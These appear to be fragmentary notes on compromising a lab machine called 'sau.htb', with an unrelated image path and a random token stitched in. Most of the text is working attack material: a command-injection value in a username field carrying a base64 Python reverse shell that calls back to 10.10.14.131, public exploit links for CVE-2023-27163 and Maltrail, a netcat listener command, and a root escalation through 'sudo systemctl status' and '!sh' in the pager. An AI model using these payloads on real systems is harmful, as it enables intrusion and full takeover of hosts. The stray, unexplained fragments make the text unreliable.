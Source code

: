 ^[\w\d\-_\.]{1,250}$ 

PoST7fdBg44YgdOQaGktc9m64h_aQJv1UZtK4RiinISQ

username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMTMxIiw4MDAxKSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL3NoIikn"+|+base64+-d+|+sh`


https://github.com/entr0pie/CVE-2023-27163

https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/README.md

python3 maltrail-exp.py 10.10.14.131 8001 http://sau.htb:55555/basket


rlwrap nc -lvnp 9001 <- to start a rev shell with nc


https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7

sudo /usr/bin/systemctl status trail.service

which then shows the service with less, then just type !sh to exploit
